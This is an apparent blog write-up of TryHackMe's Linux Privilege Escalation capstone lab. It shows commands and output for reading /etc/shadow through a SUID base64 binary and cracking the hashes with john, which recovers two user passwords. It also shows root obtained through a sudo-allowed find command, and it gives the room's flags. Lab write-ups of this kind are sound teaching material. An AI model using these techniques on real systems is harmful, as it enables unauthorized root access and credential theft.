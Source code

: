 +++
title = "THM's Linux Privilege Escalation - Capstone"
author = ["a1v4"]
date = 2024-08-16
lastmod = 2024-08-16T23:06:57-05:00
tags = ["tryhackme", "writeup"]
draft = false
+++

Writeup for TryHackMe's _Linux Privilege Escalation_ capstone task.

<!--more-->

[Link to the room](https://tryhackme.com/r/room/linprivesc)

We connect to the box and run linpeas, then we check through the list of
privilege escalation vectors listed in the room. We find that `base64` has
`suid` set.

```nil
-rwsr-xr-x. 1 root root 37K Aug 20  2019 /usr/bin/base64
```

We can use it to read `/etc/shadow`.

```nil
[leonard@ip-10-10-54-149 ~]$ base64 /etc/shadow | base64 -d
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::
```

The password's hashes are salted, so we can't use something like
<https://crackstation.net> but instead have to run `john`. We copy `shadow` to our working
directory and attempt to crack it.

```nil
$ john --wordlist=~/SecLists/Passwords/Leaked-Databases/rockyou.txt shadow
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 24 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Password1        (missy)
Penny123         (leonard)
```

It quickly found `missy`'s password but not root's, I left it running but didn't
expect to find it as we already got horizontal privilege escalation. (Funny
enough, that was the password being used for the user in all the previous
rooms.) We switch to the `missy` user with `su`.

```nil
[leonard@ip-10-10-54-149 ~]$ su missy
Password:
[missy@ip-10-10-54-149 leonard]$ id
uid=1001(missy) gid=1001(missy) groups=1001(missy) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

We search for the flag files with `find`.

```nil
[missy@ip-10-10-54-149 leonard]$ find / -name 'flag*.txt' 2>/dev/null
/home/missy/Documents/flag1.txt
```

Only found the first one: `THM-42828719920544`.

We could run linpeas again, but most of it would be the same, so we just run the
enumeration commands manually. We run `sudo -l` and get:

```nil
[missy@ip-10-10-54-149 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-54-149:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-54-149:
    (ALL) NOPASSWD: /usr/bin/find
```

Check in [GTFOBins](https://gtfobins.github.io/) for [the `find` binary](https://gtfobins.github.io/gtfobins/find/) and find we can get a shell:

```nil
[missy@ip-10-10-54-149 leonard]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Repeat the `find` command to find the missing flag.

```nil
sh-4.2# find / -name 'flag*.txt' 2>/dev/null
/home/missy/Documents/flag1.txt
/home/rootflag/flag2.txt
```

The flag is `THM-168824782390238`.
